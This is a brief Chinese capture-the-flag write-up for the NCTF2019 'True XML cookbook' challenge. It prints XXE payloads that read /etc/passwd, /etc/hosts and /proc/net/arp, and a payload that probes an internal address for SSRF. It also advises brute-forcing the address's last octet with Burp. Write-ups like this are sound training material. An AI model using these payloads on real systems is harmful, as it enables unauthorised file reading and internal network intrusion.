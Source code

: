 # \[NCTF2019]True XML cookbook

## \[NCTF2019]True XML cookbook

## 考点



## wp

直接抓包进行XXE

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

提示加载失败，把文件换成`/etc/passwd`就成功加载了。再去读`/etc/hosts`

![](<../.gitbook/assets/image (24) (1) (1) (1) (1) (1).png>)

再去读`/proc/net/arp`

![](<../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

看到内网有存活的主机，尝试访问，提示失败

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://169.254.1.1/">
  ]>
<user><username>&admin;</username><password>123546</password></user>
```

放在burp里面爆破一下最后一位地址即可
